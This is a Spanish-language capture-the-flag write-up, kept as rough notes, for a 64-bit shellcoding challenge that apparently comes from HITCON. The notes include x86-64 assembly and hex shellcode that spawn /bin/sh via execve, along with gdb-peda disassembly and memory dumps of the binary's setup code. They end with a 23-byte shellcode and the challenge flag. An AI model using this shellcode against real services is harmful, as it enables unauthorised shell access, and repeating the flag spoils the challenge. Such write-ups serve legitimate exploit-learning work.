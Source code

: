 
## **Enunciado**

Te daban el binario de 64 bits de un servicio corriendo en una máquina remota para que le pases un shellcode y puedes explotarlo para conseguir una shell y poder leer la flag.

## **Solución**

Hay que pasarle un shellcode de 24 bytes donde no se repita ningún opcode. No vale pasar el filtro de superar esos 24 bytecode que sean diferentes y luego poner detrás tu shellcode clásico de msfvenom. 

Al lío... ahora en plan apuntes en sucio, ya los ordenaré...



cat otro.asm 
;BITS64
global _start

section .text

_start:

xor	edx, edx
mov	rbx, 0x68732f6e69622fff
shr	rbx,0x8
push	rbx
mov	rdi,rsp
xor	rax,rax
push	rax
push	rdi
mov	rsi,rsp
mov	al,0x3b	
syscall

push	0x1
pop	rdi
push	0x3c
pop	rax
syscall


python -c "print '\x66\x41\x81\xc1\x85\x82\xb2\x64\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05\x6a\x01\x5f\x6a\x3c\x58\x0f\x05'" > file


\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58


2600


0x50da450ae000





gdb-peda$ i b
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x0000555555554de4 
	breakpoint already hit 1 time
2       breakpoint     keep y   0x0000555555554e2b 
	breakpoint already hit 1 time


	
	
	
	xor    eax,eax
   0x55cf92904245:	cmp    QWORD PTR [rip+0x20402b],0x0        # 0x55cf92b08278
   0x55cf9290424d:	je     0x55cf9290443f
=> 0x55cf92904253:	call   0x55cf92904e70
   0x55cf92904258:	lea    r14,[rax+0x1]
   0x55cf9290425c:	mov    BYTE PTR [rax],0x0
   0x55cf9290425f:	xor    eax,eax
   0x55cf92904261:	mov    rdi,r14

   
   
   0x55f5ecca7eb9:	xor    edx,edx
   0x55f5ecca7ebb:	xor    eax,eax
=> 0x55f5ecca7ebd:	call   0x55f5ecca67b0 <execl@plt>
   0x55f5ecca7ec2:	mov    rsi,QWORD PTR [rip+0x2033af]        # 0x55f5eceab278
   0x55f5ecca7ec9:	lea    rdi,[rip+0x16fe]        # 0x55f5ecca95ce
   
   
   
   
   
   x/64i 0x1415d46b000
   0x1415d46b000:	xor    rbp,rbp
   0x1415d46b003:	xor    rax,rax
   0x1415d46b006:	xor    rbx,rbx
   0x1415d46b009:	xor    rcx,rcx
   0x1415d46b00c:	xor    rdx,rdx
   0x1415d46b00f:	xor    rdi,rdi
   0x1415d46b012:	xor    rsi,rsi
   0x1415d46b015:	xor    r8,r8
   0x1415d46b018:	xor    r9,r9
   0x1415d46b01b:	xor    r10,r10
   0x1415d46b01e:	xor    r11,r11
   0x1415d46b021:	xor    r12,r12
   0x1415d46b024:	xor    r13,r13
   0x1415d46b027:	xor    r14,r14
   0x1415d46b02a:	xor    r15,r15
   0x1415d46b02d:	add    rsp,0x1000
   0x1415d46b034:	movabs rdi,0x68732f6e69622e
   0x1415d46b03e:	xor    di,0x1
   0x1415d46b042:	push   rdi
   0x1415d46b043:	push   rsp
   0x1415d46b044:	pop    rdi
   0x1415d46b045:	mov    al,0x3b
   0x1415d46b047:	syscall 
   0x1415d46b049:	or     al,BYTE PTR [rax]
   0x1415d46b04b:	add    BYTE PTR [rax],al
   0x1415d46b04d:	add    BYTE PTR [rax],al

   
   x/64i 0x7ffff7ff3000
   0x7ffff7ff3000:	xor    rbp,rbp
   0x7ffff7ff3003:	xor    rax,rax
   0x7ffff7ff3006:	xor    rbx,rbx
   0x7ffff7ff3009:	xor    rcx,rcx
   0x7ffff7ff300c:	xor    rdx,rdx
   0x7ffff7ff300f:	xor    rdi,rdi
   0x7ffff7ff3012:	xor    rsi,rsi
   0x7ffff7ff3015:	xor    r8,r8
   0x7ffff7ff3018:	xor    r9,r9
   0x7ffff7ff301b:	xor    r10,r10
   0x7ffff7ff301e:	xor    r11,r11
   0x7ffff7ff3021:	xor    r12,r12
   0x7ffff7ff3024:	xor    r13,r13
   0x7ffff7ff3027:	xor    r14,r14
   0x7ffff7ff302a:	xor    r15,r15
   0x7ffff7ff302d:	add    rsp,0x1000
   0x7ffff7ff3034:	mov    dx,0x1000
   0x7ffff7ff3038:	sub    rsp,rdx
   0x7ffff7ff303b:	add    r9,0x46424344
   0x7ffff7ff3042:	shl    ah,0x2
   0x7ffff7ff3045:	not    r13d
   0x7ffff7ff3048:	mov    dl,0x64
   0x7ffff7ff304a:	nop
   0x7ffff7ff304b:	xor    DWORD PTR [rax],eax
   0x7ffff7ff304d:	add    BYTE PTR [rax],al
   0x7ffff7ff304f:	add    BYTE PTR [rax],al


   52 los usa él y 23 te los deja de regalo
   
   
   
   x/32i 0x7ffff7ff3000
   0x7ffff7ff3000:	xor    rbp,rbp
   0x7ffff7ff3003:	xor    rax,rax
   0x7ffff7ff3006:	xor    rbx,rbx
   0x7ffff7ff3009:	xor    rcx,rcx
   0x7ffff7ff300c:	xor    rdx,rdx
   0x7ffff7ff300f:	xor    rdi,rdi
   0x7ffff7ff3012:	xor    rsi,rsi
   0x7ffff7ff3015:	xor    r8,r8
   0x7ffff7ff3018:	xor    r9,r9
   0x7ffff7ff301b:	xor    r10,r10
   0x7ffff7ff301e:	xor    r11,r11
   0x7ffff7ff3021:	xor    r12,r12
   0x7ffff7ff3024:	xor    r13,r13
   0x7ffff7ff3027:	xor    r14,r14
   0x7ffff7ff302a:	xor    r15,r15
   0x7ffff7ff302d:	add    rsp,0x1000
   0x7ffff7ff3034:	add    r9w,0x8285
   0x7ffff7ff303a:	mov    dl,0x64
   0x7ffff7ff303c:	lea    rsi,[rip+0xfffffffffffefaf6]        # 0x7ffff7fe2b39
   0x7ffff7ff3043:	add    rsi,r9
   0x7ffff7ff3046:	xor    eax,eax
   0x7ffff7ff3048:	syscall 
   0x7ffff7ff304a:	jmp    0x7ffff7ff3043
   0x7ffff7ff304c:	add    BYTE PTR [rax],al

   
   
   
   0x55555575605c:
   
   Cosas importantes sobre el código que ya tiene guardado él para ejecutar antes de nuestro shellcode:
   
  1.- Es en la instrucción "call memcpy" del main donde va a guardar esa parte más lo que nosotros le pasemos.
   Breakpoint 3 at 0x555555554d89
   
   Así llama a la función memcpy:
   Guessed arguments:
	arg[0]: 0x7ffff7ff3000 --> 0x0 
	arg[1]: 0x555555554ee8 --> 0x3148c03148ed3148 
	arg[2]: 0x34 ('4')
	
	Sabe donde está el código suyo (0x34h) bytes que guarda en esa posición de memoria(0x555555554ee8) porque lo calcula a partir del rip, son posiciones relativas pero el offset es fijo. 
	Echemos un vistazo:
	
		0x555555554d62:	mov    rax,QWORD PTR [rip+0x2012d7]        # 0x555555756040
		0x555555554d69:	mov    QWORD PTR [rbp-0x2038],rax
		0x555555554d70:	mov    rcx,QWORD PTR [rip+0x201299]        # 0x555555756010
		0x555555554d77:	mov    rax,QWORD PTR [rip+0x2012c2]        # 0x555555756040
		0x555555554d7e:	mov    edx,0x34

	
	En esos valores hay:
	
		x/32xw 0x555555756010
		0x555555756010:	0x55554ee8	0x00005555	0x00000000	0x00000000
		0x555555756020 <stdout>:	0xf7dd4600	0x00007fff	0x00000000	0x00000000
		0x555555756030 <stdin>:	0xf7dd38c0	0x00007fff	0x00000000	0x00000000
		0x555555756040:	0xf7ff3000	0x00007fff	0x00000000	0x00000000
		
	O sea, siempre se va a copiar a la posición 0x7ffff7ff3000 el contenido de 0x555555554ee8
	Su código va a estar hardcodeado en la posición 0x555555554ee8:
	
	   0x555555554ee8:	xor    rbp,rbp
	   0x555555554eeb:	xor    rax,rax
	   0x555555554eee:	xor    rbx,rbx
	   0x555555554ef1:	xor    rcx,rcx
	   0x555555554ef4:	xor    rdx,rdx
	   0x555555554ef7:	xor    rdi,rdi
	   0x555555554efa:	xor    rsi,rsi
	   0x555555554efd:	xor    r8,r8
	   0x555555554f00:	xor    r9,r9
	   0x555555554f03:	xor    r10,r10
	   0x555555554f06:	xor    r11,r11
	   0x555555554f09:	xor    r12,r12
	   0x555555554f0c:	xor    r13,r13
	   0x555555554f0f:	xor    r14,r14
	   0x555555554f12:	xor    r15,r15
	   0x555555554f15:	add    rsp,0x1000
	   0x555555554f1c:	add    BYTE PTR [rcx+rbp*2+0x6d],dl <-- Esta línea ya no forma parte de su código
	   
	   0x555555554f1c-0x555555554ee8=0x34 (el número de bytes que copia en hexadecimal)
  
  2.- Despues del __read_check, tenemos estos valores:
  
		   0x555555554dbd:	call   0x555555554918
		=> 0x555555554dc2:	cdqe   
		   0x555555554dc4:	mov    QWORD PTR [rbp-0x2040],rax
		   0x555555554dcb:	mov    rdx,QWORD PTR [rbp-0x2040]
		   0x555555554dd2:	lea    rax,[rbp-0x2030]
		   0x555555554dd9:	mov    rsi,rdx
		[------------------------------------stack-------------------------------------]
		0000| 0x7fffffffc260 --> 0x0 
		0008| 0x7fffffffc268 --> 0x7ffff7ff3000 --> 0x3148c03148ed3148 
		0016| 0x7fffffffc270 --> 0x64b28285c1814166 
		0024| 0x7fffffffc278 --> 0x4cfffefaf6358d48 
		0032| 0x7fffffffc280 --> 0xf7eb050fc031ce01 
		0040| 0x7fffffffc288 --> 0x0 
		0048| 0x7fffffffc290 --> 0x0 
		0056| 0x7fffffffc298 --> 0x0 

	Si nos fijamos bien son las líneas de nuestro código, exactamente 0x18 bytes. 
	
	   x/32i 0x7fffffffc270
	   0x7fffffffc270:	add    r9w,0x8285
	   0x7fffffffc276:	mov    dl,0x64
	   0x7fffffffc278:	lea    rsi,[rip+0xfffffffffffefaf6]        # 0x7ffffffebd75
	   0x7fffffffc27f:	add    rsi,r9
	   0x7fffffffc282:	xor    eax,eax
	   0x7fffffffc284:	syscall 
	   0x7fffffffc286:	jmp    0x7fffffffc27f
	   0x7fffffffc288:	add    BYTE PTR [rax],al

  3.- A partir de aquí empieza a empalmar su código con el que tu has introducido:
  
	   0x555555554de8:	mov    rax,QWORD PTR [rip+0x201251]        # 0x7ffff7ff3000
	   0x555555554def:	add    rax,0x34
	=> 0x555555554df3:	mov    rdx,QWORD PTR [rbp-0x2030]	<- Va metiendo los trozos de nuestro código que están en la pila
	   0x555555554dfa:	mov    QWORD PTR [rax],rdx
	   0x555555554dfd:	mov    rdx,QWORD PTR [rbp-0x2028]
	   0x555555554e04:	mov    QWORD PTR [rax+0x8],rdx
	   0x555555554e08:	mov    rdx,QWORD PTR [rbp-0x2020]

   
 
 En definitiva sólo admite 23 bytes y que no se repitan para explotar el servicio.
 
 Mira este shellcode justo 23 bytes:
 
 \x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05




hitcon{sh3llc0d1n9_1s_4_b4by_ch4ll3n93_4u}
